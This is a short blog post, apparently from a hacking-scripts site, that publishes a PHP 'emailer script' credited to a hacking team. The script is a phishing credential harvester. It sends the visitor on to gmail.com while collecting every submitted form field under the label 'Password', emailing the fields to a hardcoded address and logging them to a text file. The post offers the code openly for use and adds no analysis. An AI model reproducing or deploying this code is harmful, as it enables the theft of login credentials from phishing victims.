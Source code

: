 ```yaml
---
id: 237
title: Emailer script
author: admin
layout: post
guid: http://hackingscripts.com/?p=237
permalink: /emailer-script/
categories:
  - PHP
tags:
  - emailer
  - PHP
---
```

Emailer script &#8211; Coded by Hangaw_HawlerY of H4KurD-TeaM


### Emailer Script Source Code

{% highlight php %}<?php

/* 
H4KurD-TeaM
www.h4kurd.com
Coded By : Hangaw_HawlerY
Email: Hangaw_HawlerY@Yahoo.com , Hangaw_HawlerY@Hotmail.com 
All Right Reserved
*/

header ('Location: https://www.gmail.com');

$posts        = '';
foreach($_POST as $k =&gt; $v){
    $posts .= '$_POST['.$k.'] = '.$v."\n";
}

$posts       .= "---------------------------------------------------\n";
$emailto    = 'pramod.sin321@gmail.com';
$subject    = $_SERVER['HTTP_HOST']."-".$_SEREVER['SERVER_NAME'];
$from        = "From: Password &lt;h4kurd.team@gmail.com&gt;";
$body        = '
'.$posts.'
';

@mail($emailto, $subject, $body, $from);
$handle = @fopen("h4kurd.txt", "a+");
@fwrite($handle, $posts);
fclose($handle);
?>
{% endhighlight %}
